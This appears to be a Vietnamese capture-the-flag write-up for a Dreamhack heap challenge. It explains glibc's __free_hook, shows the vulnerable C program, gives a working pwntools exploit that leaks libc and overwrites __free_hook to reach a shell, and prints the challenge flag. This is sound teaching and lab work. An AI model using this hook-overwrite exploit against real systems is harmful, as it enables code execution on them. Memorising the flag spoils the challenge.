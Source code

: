 # Hook Overwrite

trước khi vào chall này thì chúng ta **cần tìm hiểu về Hook Overwrite trên dreamhack và JHT Pwner nha**

**dreamhack:** https://learn.dreamhack.io/11#17

theo như những gì mình hiểu thì:

## Hook

![image](https://github.com/gookoosss/CTF/assets/128712571/d677a5e5-35aa-4bb4-818f-0747c87eb8fa)



- trong các hàm **malloc, realloc, free** thì có các hàm hook tương ứng là **malloc_hook, __realloc_hook và __free_hook** 
- khi chạy vào **malloc, realloc, free,** nó sẽ kiểm tra xem các cái giá trị hook có phải là null không, nếu không phải thì chứ sẽ trỏ đến cái địa chỉ mà hook đang chứa
- Các hàm liên quan tới heap như malloc, realloc và free đều có những cái hook riêng. **Khi ta kiểm soát được các hook đó đồng nghĩa với việc ta hoàn toàn có thể cho chương trình thực thi các lệnh tùy ý mà ta mong muốn.**

### source C:

```c 
// gcc -o init_fini_array init_fini_array.c -Wl,-z,norelro
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}

void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    signal(SIGALRM, alarm_handler);
    alarm(60);
}

int main(int argc, char *argv[]) {
    long *ptr;
    size_t size;

    initialize();

    printf("stdout: %p\n", stdout);

    printf("Size: ");
    scanf("%ld", &size);

    ptr = malloc(size);

    printf("Data: ");
    read(0, ptr, size);

    *(long *)*ptr = *(ptr+1);

    free(ptr);
    free(ptr);

    system("/bin/sh");
    return 0;
}

```


waoo bài này có **hàm system("/bin/sh") ngay trong hàm main kìa** , nên h ta chỉ cần chạy hết chương trình là lấy shell thôi hehe


![image](https://github.com/gookoosss/CTF/assets/128712571/24c9ddda-66cf-4fd6-a2e0-daf585e70725)

ôi không ta bị **lỗi double free** rồi :(((

```
nghĩa là ta chỉ chạy qua được hàm free 1 lần thôi, nếu chạy qua lần nữa sẽ bị lỗi đó
```

**vậy thì ý tưởng của ta bây giờ là làm sao thực thi được shell khi đi qua free lần đầu** 

lúc này thì ta cần sử dụng `kĩ thuật Hook Overwrite` mà ta vừa học để khai thác

## Ý tưởng:

- chương trình cho ta địa chỉ stdout nên từ đây ta có thể **dễ dàng leak được libc base**
- có được địa chỉ libc base rồi nên ta có thể **sử dụng __free_hook để thực thi địa chỉ mình muốn**
- khi chạy vào hàm free lần đầu , **lợi dụng __free_hook để trỏ đến địa chỉ system để lấy shell, tránh được lỗi double free**

à ở đây có 1 vần đề ta cần lưu ý:

![image](https://github.com/gookoosss/CTF/assets/128712571/f726634a-fd51-4245-aba2-1a1723cb3e36)


phân tích đoạn mã ASM này thì ta thấy là đầu tiên chương trình sẽ gán giá trị ta nhập vào Data vào rax, sau đó lấy 8byte đầu gán vào rdx, tiếp theo lấy lại 8byte sau gán vào rax, cuối cùng thì gán rax vào địa chỉ là rdx đang trỏ đến

**=> ta phải gán cho rdx bằn 1 địa chỉ hợp lệ là 8byte đầu ta nhập vào Data**

vì vậy ta sẽ gán **8byte đầu là địa chỉ của __free_hook**

8byte tiếp theo sẽ là địa chỉ **0x0000000000400a11 nằm trước system**

![image](https://github.com/gookoosss/CTF/assets/128712571/63cfd7b7-4ae1-4aaf-8587-2aedda47f5a3)


## script:

```python 
#!/usr/bin/env python3

from pwn import *

exe = ELF("./hook_patched")
libc = ELF("./libc-2.23.so")
ld = ELF("./ld-2.23.so")
context.binary = exe
p = process([exe.path])
# p = remote("host3.dreamhack.games", 22503)



gdb.attach(p, gdbscript = '''
b*main+149
c
''')
           
input()

p.recvuntil(b'stdout: ')
libc_leak = int(p.recvline()[:-1], 16)
libc.address = libc_leak - 0x3c5620
log.info('libc leak :' + hex(libc_leak))
log.info('libc base :' + hex(libc.address))


p.sendlineafter(b'Size: ', b'512')
payload = flat(
    libc.sym['__free_hook'], # địa chỉ của __free_hook
    0x0000000000400a11
)
    
p.sendlineafter(b'Data: ', payload)

p.interactive()

```

## Flag:

**DH{c5e5c5c0a45d71d2666571ab2dc09cf4c4e750402ab4bb4c8a57091063ee7418}**


